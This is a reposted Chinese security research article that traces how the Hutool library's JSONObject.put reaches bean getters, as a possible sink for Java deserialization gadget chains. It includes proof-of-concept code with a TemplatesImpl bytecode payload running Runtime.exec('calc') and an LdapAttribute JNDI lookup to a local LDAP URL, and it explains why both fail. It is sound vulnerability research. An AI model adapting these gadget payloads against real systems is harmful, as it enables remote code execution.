







# hutool依赖利用链挖掘分析-先知社区

> **来源**: https://xz.aliyun.com/news/17438  
> **文章ID**: 17438

---

# hutool依赖利用链挖掘分析

## 前言

Hutool 是一个 **Java 工具库**，提供了一系列 **开箱即用的工具类**，极大地简化 Java 开发，提高代码的可读性和开发效率。它的目标是 **让 Java 更简单**，类似于 Java 版的 Lodash 或 Guava。

Hutool 由 **中国开发者 looly** 开发，**代码简洁、API 设计优雅**，适用于 **Java 后端开发、工具开发、数据处理** 等场景。

在很多反序列化中，我们经常的sink点都是调用bean的getter或者setter方法，也一直没有停止过对如何调用setter和getter的挖掘，比如我们的fastjson和jackson，但是对于hutool组件的挖掘，网上分析文章非常的少，这里也是进行一波调试分析，探究底层到底是如如何调用getter在我们的反序列化中被利用的

​

​

## 测试代码

```
package com.aliyunctf.agent;

import cn.hutool.json.JSONObject;
import com.fasterxml.jackson.databind.ObjectMapper;

import java.lang.reflect.Field;


public class Test {
    public static class Message  {
        int code;
        String detail;
        Object data;

        public Message() {
        }

        public void setCode(int code) {
            System.out.println("setCode");
            this.code = code;
        }

        public void setDetail(String detail) {
            System.out.println("setdetail");
            this.detail = detail;
        }

        public void setData(Object data) {
            System.out.println("setdata");
            this.data = data;
        }

        public int getCode() {
            System.out.println("getCode");
            return this.code;
        }

        public String getDetail() {
            System.out.println("getDetail");
            return this.detail;
        }

        public Object getData() throws Exception{
            System.out.println("getData");
//            java.lang.Runtime.getRuntime().exec("open .");
            System.out.println(this);
            return this.data;
        }

        public Message(int code, String detail) {
            this.code = code;
            this.detail = detail;
        }

        public Message(int code, String detail, Object data) {
            this.code = code;
            this.detail = detail;
            this.data = data;
        }
    }
    public static void main(String[] args) throws Exception {
        Message message = new Message();
        setFieldValue(message, "code", 1);
        setFieldValue(message, "detail", "hello world");
        setFieldValue(message, "data", "data");
        ObjectMapper objectMapper = new ObjectMapper();
//        String s = objectMapper.writeValueAsString(message);

        JSONObject entries = new JSONObject();
        entries.put("code", message);
//        com.alibaba.fastjson.JSON.toJSONString(message);


//        System.out.println("1");


    }
    public static void setFieldValue(Object obj, String name, Object val) throws Exception {
        setFieldValue(obj.getClass(), obj, name, val);
    }
    public static void setFieldValue(Class<?> clazz, Object obj, String name, Object val) throws Exception {
        Field f = clazz.getDeclaredField(name);
        f.setAccessible(true);
        f.set(obj, val);
    }
}
```

我们运行发现调用了 put 类的 getter 方法



## 调用探寻

我们调试分析一下

首先进入 put 方法

```
public JSONObject put(String key, Object value) throws JSONException {
    return this.set(key, value);
}
```



重点是我们的 value 对象

根据 set 方法

```
public JSONObject set(String key, Object value) throws JSONException {
    return this.set(key, value, (Filter)null, false);
}
```

```
public JSONObject set(String key, Object value, Filter<MutablePair<String, Object>> filter, boolean checkDuplicate) throws JSONException {
    if (null == key) {
        return this;
    } else {
        if (null != filter) {
            MutablePair<String, Object> pair = new MutablePair(key, value);
            if (!filter.accept(pair)) {
                return this;
            }

            key = (String)pair.getKey();
            value = pair.getValue();
        }

        boolean ignoreNullValue = this.config.isIgnoreNullValue();
        if (ObjectUtil.isNull(value) && ignoreNullValue) {
            this.remove(key);
        } else {
            if (checkDuplicate && this.containsKey(key)) {
                throw new JSONException("Duplicate key "{}"", new Object[]{key});
            }

            super.put(key, JSONUtil.wrap(InternalJSONUtil.testValidity(value), this.config));
        }

        return this;
    }
}
```

在这里调用了 JSONUtil.wrap(InternalJSONUtil.testValidity(value)去处理我们的对象

```
public static Object wrap(Object object, JSONConfig jsonConfig) {
    if (object == null) {
        return jsonConfig.isIgnoreNullValue() ? null : JSONNull.NULL;
    } else if (!(object instanceof JSON) && !ObjectUtil.isNull(object) && !(object instanceof JSONString) && !(object instanceof CharSequence) && !(object instanceof Number) && !ObjectUtil.isBasicType(object)) {
        try {
            if (object instanceof SQLException) {
                return object.toString();
            } else if (!(object instanceof Iterable) && !ArrayUtil.isArray(object)) {
                if (!(object instanceof Map) && !(object instanceof Map.Entry)) {
                    if (!(object instanceof Date) && !(object instanceof Calendar) && !(object instanceof TemporalAccessor)) {
                        if (object instanceof Enum) {
                            return object.toString();
                        } else {
                            return ClassUtil.isJdkClass(object.getClass()) ? object.toString() : new JSONObject(object, jsonConfig);
                        }
                    } else {
                        return object;
                    }
                } else {
                    return new JSONObject(object, jsonConfig);
                }
            } else {
                return new JSONArray(object, jsonConfig);
            }
        } catch (Exception var3) {
            return null;
        }
    } else {
        return object instanceof Number && null != jsonConfig.getDateFormat() ? new NumberWithFormat((Number)object, jsonConfig.getDateFormat()) : object;
    }
}
```

就是把我们的 Java 对象包装为相应的 JSON 结构

### jdk 原始类判断

在 wrap 方法中会进行 isJdkClass 判断

```
public static boolean isJdkClass(Class<?> clazz) {
    Package objectPackage = clazz.getPackage();
    if (null == objectPackage) {
        return false;
    } else {
        String objectPackageName = objectPackage.getName();
        return objectPackageName.startsWith("java.") || objectPackageName.startsWith("javax.") || clazz.getClassLoader() == null;
    }
}
```

首先获取包名，然后判断包名是否以 java 或者 javax 开头，然后还会判断是否 classloader 加载，因为原生类就是

因为是 jdk 的类会直接返回 obj.tostrng，如果不是才会进行下一步

```
return new JSONObject(object, jsonConfig);
```

跟进

```
public JSONObject(Object source, JSONConfig config) {
    this(source, config, (Filter)null);
}
```

```
public JSONObject(Object source, JSONConfig config, Filter<MutablePair<String, Object>> filter) {
    this(16, config);
    ObjectMapper.of(source).map(this, filter);
}
```

进入我们的 map

```
public void map(JSONObject jsonObject, Filter<MutablePair<String, Object>> filter) {
Object source = this.source;
if (null != source) {
    JSONSerializer serializer = GlobalSerializeMapping.getSerializer(source.getClass());
    if (serializer instanceof JSONObjectSerializer) {
        serializer.serialize(jsonObject, source);
    } else if (source instanceof JSONArray) {
        throw new JSONException("Unsupported type [{}] to JSONObject!", new Object[]{source.getClass()});
    } else {
        if (source instanceof Map) {
            Iterator var5 = ((Map)source).entrySet().iterator();

            while(var5.hasNext()) {
                Map.Entry<?, ?> e = (Map.Entry)var5.next();
                jsonObject.set(Convert.toStr(e.getKey()), e.getValue(), filter, jsonObject.getConfig().isCheckDuplicate());
            }
        } else if (source instanceof Map.Entry) {
            Map.Entry entry = (Map.Entry)source;
            jsonObject.set(Convert.toStr(entry.getKey()), entry.getValue(), filter, jsonObject.getConfig().isCheckDuplicate());
        } else if (source instanceof CharSequence) {
            mapFromStr((CharSequence)source, jsonObject, filter);
        } else if (source instanceof Reader) {
            mapFromTokener(new JSONTokener((Reader)source, jsonObject.getConfig()), jsonObject, filter);
        } else if (source instanceof InputStream) {
            mapFromTokener(new JSONTokener((InputStream)source, jsonObject.getConfig()), jsonObject, filter);
        } else if (source instanceof byte[]) {
            mapFromTokener(new JSONTokener(IoUtil.toStream((byte[])((byte[])source)), jsonObject.getConfig()), jsonObject, filter);
        } else if (source instanceof JSONTokener) {
            mapFromTokener((JSONTokener)source, jsonObject, filter);
        } else if (source instanceof ResourceBundle) {
            mapFromResourceBundle((ResourceBundle)source, jsonObject, filter);
        } else if (BeanUtil.isReadableBean(source.getClass())) {
            mapFromBean(source, jsonObject);
        } else if (!jsonObject.getConfig().isIgnoreError()) {
            throw new JSONException("Unsupported type [{}] to JSONObject!", new Object[]{source.getClass()});
        }

    }
```

跟进 source 的类型选择对应的 map 方法来处理

### isReadableBean 检测

在调用 bean 的处理方法前会坚持当前对象是否为我们的 bean

```
public static boolean isReadableBean(Class<?> clazz) {
    return hasGetter(clazz) || hasPublicField(clazz);
}
```

首先判断是否有 getter 方法

```
public static boolean hasGetter(Class<?> clazz) {
    if (ClassUtil.isNormalClass(clazz)) {
        Method[] var1 = clazz.getMethods();
        int var2 = var1.length;

        for(int var3 = 0; var3 < var2; ++var3) {
            Method method = var1[var3];
            if (method.getParameterCount() == 0) {
                String name = method.getName();
                if ((name.startsWith("get") || name.startsWith("is")) && !"getClass".equals(name)) {
                    return true;
                }
            }
        }
    }

    return false;
}
```

首先需要判断我们的 class 是一个 isNormalClass

```
public static boolean isNormalClass(Class<?> clazz) {
    return null != clazz && !clazz.isInterface() && !isAbstract(clazz) && !clazz.isEnum() && !clazz.isArray() && !clazz.isAnnotation() && !clazz.isSynthetic() && !clazz.isPrimitive();
}
```

然后判断是否有 getter 方法

然后还要判断 hasPublicField

是否有 public 的字段

```
public static boolean hasPublicField(Class<?> clazz) {
    if (ClassUtil.isNormalClass(clazz)) {
        Field[] var1 = clazz.getFields();
        int var2 = var1.length;

        for(int var3 = 0; var3 < var2; ++var3) {
            Field field = var1[var3];
            if (ModifierUtil.isPublic(field) && !ModifierUtil.isStatic(field)) {
                return true;
            }
        }
    }

    return false;
}
```

判断成功后就会进入 mapFromBean 处理

```
private static void mapFromBean(Object bean, JSONObject jsonObject) {
    BeanUtil.beanToMap(bean, jsonObject, InternalJSONUtil.toCopyOptions(jsonObject.getConfig()));
}
```

一直跟进来到 copy 方法

```
public Map copy() {
        Class<?> actualEditable = this.source.getClass();
        if (null != this.copyOptions.editable) {
            Assert.isTrue(this.copyOptions.editable.isInstance(this.source), "Source class [{}] not assignable to Editable class [{}]", new Object[]{actualEditable.getName(), this.copyOptions.editable.getName()});
            actualEditable = this.copyOptions.editable;
        }

        Map<String, PropDesc> sourcePropDescMap = BeanUtil.getBeanDesc(actualEditable).getPropMap(this.copyOptions.ignoreCase);
        sourcePropDescMap.forEach((sFieldName, sDesc) -> {
            if (null != sFieldName && sDesc.isReadable(this.copyOptions.transientSupport)) {
                sFieldName = this.copyOptions.editFieldName(sFieldName);
                if (null != sFieldName) {
                    if (this.copyOptions.testKeyFilter(sFieldName)) {
                        Object sValue = sDesc.getValue(this.source);
                        if (this.copyOptions.testPropertyFilter(sDesc.getField(), sValue)) {
                            Type[] typeArguments = TypeUtil.getTypeArguments(this.targetType);
                            if (null != typeArguments) {
                                sValue = this.copyOptions.convertField(typeArguments[1], sValue);
                                sValue = this.copyOptions.editFieldValue(sFieldName, sValue);
                            }

                            if (null != sValue || !this.copyOptions.ignoreNullValue) {
                                ((Map)this.target).put(sFieldName, sValue);
                            }

                        }
                    }
                }
            }
        });
        return (Map)this.target;
    }
}
```

将 JavaBean 的属性复制到一个 Map 中，在赋复制过程中会根据 copyOptions 进行一些转换和筛选

### isReadable 检测

  
这里会获取名称和对应的描述

会调用 isReadable

```
public boolean isReadable(boolean checkTransient) {
    if (null == this.getter && !ModifierUtil.isPublic(this.field)) {
        return false;
    } else if (checkTransient && this.isTransientForGet()) {
        return false;
    } else {
        return !this.isIgnoreGet();
    }
}
```

判断这个 fied 是不是 public，有没有对应的 getter 方法,还判断了 fied 是不是 TRANSIENT 修饰

如果是 public 而且有对应的 getter 方法，并且没有被 Transient 修饰才会进入下一步

来到我们的 sink 点

```
Object sValue = sDesc.getValue(this.source);
```

```
public Object getValue(Object bean) {
    if (null != this.getter) {
        return ReflectUtil.invoke(bean, this.getter, new Object[0]);
    } else {
        return ModifierUtil.isPublic(this.field) ? ReflectUtil.getFieldValue(bean, this.field) : null;
    }
}
```

看这个逻辑就是非常清楚了，就是调用我们的 getter 方法

最后也算是分析清楚了

## 与常规调用 getter 组件区别

### TemplatesImpl 类

POC

```
import cn.hutool.json.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import java.lang.reflect.Field;


public class Test {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("gaoren");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("java.lang.Runtime.getRuntime().exec("calc");");
        clazz.addConstructor(constructor);
        byte[][] bytess = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", bytess);
        setFieldValue(templates, "_name", "a");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        JSONObject entries = new JSONObject();
        entries.put("code", templates);
    }
    public static void setFieldValue(Object obj, String name, Object val) throws Exception {
        setFieldValue(obj.getClass(), obj, name, val);
    }
    public static void setFieldValue(Class<?> clazz, Object obj, String name, Object val) throws Exception {
        Field f = clazz.getDeclaredField(name);
        f.setAccessible(true);
        f.set(obj, val);
    }
}
```

这个类是我们的老朋友之一了，但是并不能够利用它，至于原因我们来分析分析

```
wrap:800, JSONUtil (cn.hutool.json)
set:393, JSONObject (cn.hutool.json)
set:352, JSONObject (cn.hutool.json)
put:340, JSONObject (cn.hutool.json)
main:29, Test
```

还是一样的来到 wrap 方法



这里会进入 isJdkClass 判断

因为这个是 jdk 的原始类

```
public ClassLoader getClassLoader() {
    ClassLoader cl = getClassLoader0();
    if (cl == null)
        return null;
    SecurityManager sm = System.getSecurityManager();
    if (sm != null) {
        ClassLoader.checkClassLoaderPermission(cl, Reflection.getCallerClass());
    }
    return cl;
}
```

返回为 null



导致直接 object.toString()

并不会进行下面的步骤，导致利用失败

### LdapAttribute

这个类非常有意思，是我们的 jdk 的原生类，而且调用它的 getter 方法可以触发 jndi

看到它的 getAttributeSyntaxDefinition 方法

```
public DirContext getAttributeSyntaxDefinition() throws NamingException {
    DirContext var1 = this.getBaseCtx().getSchema(this.rdn);
    DirContext var2 = (DirContext)var1.lookup("AttributeDefinition/" + this.getID());
    Attribute var3 = var2.getAttributes("").get("SYNTAX");
    if (var3 != null && var3.size() != 0) {
        String var4 = (String)var3.get();
        return (DirContext)var1.lookup("SyntaxDefinition/" + var4);
    } else {
        throw new NameNotFoundException(this.getID() + "does not have a syntax associated with it");
    }
}
```

是可以进行 jndi 的

具体参考网上，有很多了，我们尝试利用这个

```
import cn.hutool.json.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.naming.CompositeName;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;


public class Test {
    public static void main(String[] args) throws Exception {
        Class<?> aClass = Class.forName("com.sun.jndi.ldap.LdapAttribute");
        Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(String.class);
        declaredConstructor.setAccessible(true);
        Object o = declaredConstructor.newInstance("exp");
        setFieldValue(o,"baseCtxURL","ldap://127.0.0.1:389/123");
        setFieldValue(o,"rdn",new CompositeName("xxx//b"));
        JSONObject entries = new JSONObject();
        entries.put("a", o);

    }
    public static void setFieldValue(Object obj, String name, Object val) throws Exception {
        setFieldValue(obj.getClass(), obj, name, val);
    }
    public static void setFieldValue(Class<?> clazz, Object obj, String name, Object val) throws Exception {
        Field f = clazz.getDeclaredField(name);
        f.setAccessible(true);
        f.set(obj, val);
    }
}
```

一样的到 jdk 判断

```
wrap:800, JSONUtil (cn.hutool.json)
set:393, JSONObject (cn.hutool.json)
set:352, JSONObject (cn.hutool.json)
put:340, JSONObject (cn.hutool.json)
main:25, Test
```



在判断中任然不可以



所以导致了利用失败

​
